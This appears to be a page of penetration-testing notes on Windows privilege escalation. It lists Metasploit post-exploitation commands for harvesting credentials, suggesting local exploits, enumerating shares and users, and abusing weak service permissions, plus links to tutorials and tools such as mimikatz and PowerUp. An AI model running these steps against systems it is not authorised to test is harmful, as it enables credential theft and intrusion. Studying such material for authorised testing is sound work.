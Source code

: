 
## Post modules

Some interesting metasploit post-modules

First you need to background the meterpreter shell and then you just run the post modules.  
You can also try some different post modules.

```
use exploit/windows/local/service_permissions

post/windows/gather/credentials/gpp

run post/windows/gather/credential_collector 

run post/multi/recon/local_exploit_suggester

run post/windows/gather/enum_shares

run post/windows/gather/enum_snmp

run post/windows/gather/enum_applications

run post/windows/gather/enum_logged_on_users

run post/windows/gather/checkvm
```

## References

[http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/](http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/)  
[http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)  
[https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)  
[http://it-ovid.blogspot.cl/2012/02/windows-privilege-escalation.html](http://it-ovid.blogspot.cl/2012/02/windows-privilege-escalation.html)  
[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)  
[http://bernardodamele.blogspot.cl/2011/12/dump-windows-password-hashes.html](http://bernardodamele.blogspot.cl/2011/12/dump-windows-password-hashes.html)  
[https://www.youtube.com/watch?v=kMG8IsCohHA&feature=youtu.be](https://www.youtube.com/watch?v=kMG8IsCohHA&feature=youtu.be)  
[https://www.youtube.com/watch?v=PC\_iMqiuIRQ](https://www.youtube.com/watch?v=PC_iMqiuIRQ)  
[http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)  
[https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp)  
[http://pwnwiki.io/\#!privesc/windows/index.md](http://pwnwiki.io/#!privesc/windows/index.md)

